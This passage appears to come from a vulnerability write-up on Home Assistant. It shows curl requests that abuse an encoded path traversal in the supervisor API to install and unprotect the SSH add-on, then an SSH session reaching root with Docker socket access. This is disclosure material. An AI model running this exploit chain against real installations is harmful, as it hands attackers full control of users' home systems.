 ```
        "supported": true,
        "timezone": "Australia/Melbourne",
        "update_available": true,
        "version": "2022.12.1",
        "version_latest": "2023.01.1",
        "wait_boot": 5
    },
    "result": "ok"
}
```

## Remote Code Execution

By installing and configuring the [SSH & Web Terminal Add-on](https://github.com/hassio-addons/addon-ssh/tree/main), it is possible to achieve code execution on the host system as root. Although add-ons are run as docker containers, when configured with protections disabled, the container is run with extra privileges and the docker socket is mounted, allowing access to the host system.

```
❯ curl -X POST http://192.168.20.182:8123/api/hassio/app/.%252e/store/addons/a0d7b954_ssh/install
{"result": "ok", "data": {}}
❯ curl -X POST http://192.168.20.182:8123/api/hassio/app/.%252e/addons/a0d7b954_ssh/security -H 'Content-Type: application/json' -d '{"protected":"false"}'
{"result": "ok", "data": {}}
❯ curl -X POST http://192.168.20.182:8123/api/hassio/app/.%252e/addons/a0d7b954_ssh/options -H 'Content-Type: application/json' -d '{"options":{"init_commands":[],"packages":[],"share_sessions":false,"ssh":{"allow_agent_forwarding":false,"allow_remote_port_forwarding":false,"allow_tcp_forwarding":false,"authorized_keys":[],"compatibility_mode":false,"password":"hunter2","sftp":false,"username":"hassio"},"zsh":true}}'
{"result": "ok", "data": {}}
❯ curl -X POST http://192.168.20.182:8123/api/hassio/app/.%252e/addons/a0d7b954_ssh/restart
{"result": "ok", "data": {}}
❯ ssh 192.168.20.182 -p22 -lhassio
The authenticity of host '192.168.20.182 (192.168.20.182)' can't be established.
ED25519 key fingerprint is SHA256:IruxlIdZZZife5t2Y2g69zG/+mqc0nfbPdKXR+AX2ZY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.20.182' (ED25519) to the list of known hosts.
hassio@192.168.20.182's password:

| |  | |                          /\           (_)   | |            | |
| |__| | ___  _ __ ___   ___     /  \   ___ ___ _ ___| |_ __ _ _ __ | |_
|  __  |/ _ \| '_ \ _ \ / _ \   / /\ \ / __/ __| / __| __/ _\ | '_ \| __|
| |  | | (_) | | | | | |  __/  / ____ \\__ \__ \ \__ \ || (_| | | | | |_
|_|  |_|\___/|_| |_| |_|\___| /_/    \_\___/___/_|___/\__\__,_|_| |_|\__|

Welcome to the Home Assistant command line.

System information
  IPv4 addresses for enp0s3: 192.168.20.182/24
  IPv6 addresses for enp0s3: fe80::494d:126b:afb:d3a7/64

  OS Version:               Home Assistant OS 9.5
  Home Assistant Core:      2023.2.5

  Home Assistant URL:       http://homeassistant.local:8123
  Observer URL:             http://homeassistant.local:4357
➜  ~ id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
➜  ~ ls -la /run/docker.sock
srw-rw----    1 root     messageb         0 Mar  2 13:21 /run/docker.sock
➜  ~ docker container ls
```